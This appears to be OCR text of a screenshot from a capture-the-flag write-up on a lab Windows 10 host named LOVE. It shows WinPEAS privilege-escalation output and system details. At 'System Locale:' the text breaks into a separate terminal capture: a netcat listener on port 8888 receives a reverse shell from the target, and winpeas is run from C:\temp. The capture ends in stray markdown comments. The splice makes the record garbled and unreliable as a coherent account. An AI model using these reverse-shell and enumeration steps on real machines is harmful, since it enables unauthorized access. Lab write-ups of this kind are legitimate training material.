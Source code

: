 
/!\ Advisory: WinPEAS - Windows local Privilege Escalation Awesome Script
   WinPEAS should be used for authorized penetration testing and/or educational purposes only.
   Any misuse of this software will not be the responsibility of the author or of any other collaborator.
   Use it at your own networks and/or with the network owner's permission.

[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits

Host Name:                 LOVE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          roy
Registered Organization:   
Product ID:                00330-80112-18556-AA148
Original Install Date:     4/12/2021, 1:14:12 PM
System Boot Time:          6/14/2021, 11:34:54 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume3
System Locale:             ┌─[user@parrot-virtual]─[~/Desktop]
└──╼ $nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.239] 62153
SOCKET: Shell has connected! PID: 5972
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\>winpeas.bat /?
'winpeas.bat' is not recognized as an internal or external command,
operable program or batch file.

C:\>cd temp

C:\temp>winpeas //

            ((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
   ((((((((((((((((* *****,,,/########## .(* ,((((((
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/###### /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
   .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)